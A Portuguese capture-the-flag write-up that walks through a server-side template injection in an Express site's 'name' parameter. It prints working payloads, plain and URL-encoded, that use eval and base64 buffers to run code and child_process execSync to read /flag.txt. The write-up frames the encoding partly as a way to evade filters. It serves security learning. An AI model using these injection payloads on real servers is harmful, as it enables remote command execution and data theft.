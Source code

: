 # **WEB**

**Autor**: Hakal  
**Desafio**: Funny Cats  
**Nível**: Médio  

---

## **1. Introdução**

Neste write-up, abordaremos uma exploração que se aproveita da vulnerabilidade de Server-Side Template Injection (SSTI) em um servidor Express. O objetivo desta exploração é localizar a flag escondida no arquivo `/flag.txt` no servidor alvo. A exploração será realizada através de injeções de template, que permitem a execução de código arbitrário no servidor.

---

## **2. Análise do Código Vulnerável**

O site exibe imagens de gatos e permite a inserção de um nome de gato através de uma URL, como no exemplo: `https://funny-cats.chapeudepalhahacker.club/gato?name=Alfredo`. A vulnerabilidade SSTI ocorre quando a entrada do usuário é processada sem a devida sanitização, permitindo a execução de código no servidor.

---

## **3. Exploração da SSTI**

O objetivo da exploração é injetar código malicioso que nos permita ler o conteúdo do arquivo `/flag.txt`.

### **Passo 1: Demonstração de Injeção de Template Básica**

Injetamos um código simples que realiza uma multiplicação. O código está URL-encoded para garantir que os caracteres especiais sejam processados corretamente pelo servidor. Isso também ajuda a evitar que o código seja bloqueado ou modificado por filtros de segurança.

**Payload:**

```plaintext
<%= 7*7 %>
```

**URL Encoded:**

Utilizamos o [CyberChef](https://gchq.github.io/CyberChef) para o payload em URL. O resultado é:

```plaintext
%3C%25%3D%207*7%20%25%3E
```

**URL Completa:**

Injetamos o payload na URL completa através do source code:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%207*7%20%25%3E
```

**Saída:**

![Resultado da Injeção Básica](1.png)

### **Passo 2: Identificação do Sistema Operacional**

Para identificar o sistema operacional do servidor, utilizamos a função `eval` para decodificar um buffer em base64 que executa o comando `os.platform()`. O código está URL-encoded para garantir que os caracteres especiais sejam processados corretamente pelo servidor.

**Payload:**

```plaintext
<%= '- Sistema Operacional: ' %><%=eval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk=', 'base64').toString())%><%= '' %>
```

**URL Encoded:**

Codificamos o payload em URL novamente, e o resultado é:

```plaintext
%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

Injetamos o payload na URL completa através do source code:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- Sistema Operacional: '%20%25%3E%3C%25%3Deval(Buffer('Z2xvYmFsLnByb2Nlc3MubWFpbk1vZHVsZS5yZXF1aXJlKCdvcycpLnBsYXRmb3JtKCk%3D',%20'base64').toString())%25%3E%3C%25%3D%20''%20%25%3E
```

**Saída:**

![Identificação do Sistema Operacional](2.png)

### **Passo 3: Leitura do Conteúdo de /flag.txt**

Para ler o conteúdo do arquivo `/flag.txt`, utilizamos a função `execSync` do módulo `child_process` para executar o comando `cat /flag.txt`. O código está URL-encoded para garantir que os caracteres especiais sejam processados corretamente pelo servidor.

**Payload:**

```plaintext
<%= '- ' %><%= global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo=', 'base64').toString()) %><%= '' %>
```

**URL Encoded:**

Novamente encodamos para URL. O resultado é:

```plaintext
%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**URL Completa:**

Injetamos o payload na URL completa através do source code:

```plaintext
view-source:https://funny-cats.chapeudepalhahacker.club/gato?name=%3C%25%3D%20'- '%20%25%3E%3C%25%3D%20global.process.mainModule.require('child_process').execSync(Buffer('Y2F0IC9mbGFnLnR4dAo%3D',%20'base64').toString())%20%25%3E%3C%25%3D%20''%20%25%3E
```

**Saída:**

![Leitura do Conteúdo de /flag.txt](3.png)

---

## **4. Conclusão**

Este desafio envolveu o processo de:

1. Identificação da vulnerabilidade de SSTI no servidor Express.
2. Injeção de código malicioso para identificar o sistema operacional do servidor.
3. Execução de comandos no servidor para ler o conteúdo do arquivo `/flag.txt` e obter a flag.

Com o conhecimento sobre a vulnerabilidade SSTI e a necessidade de URL encoding, foi possível realizar a exploração com sucesso e alcançar o objetivo final.

---

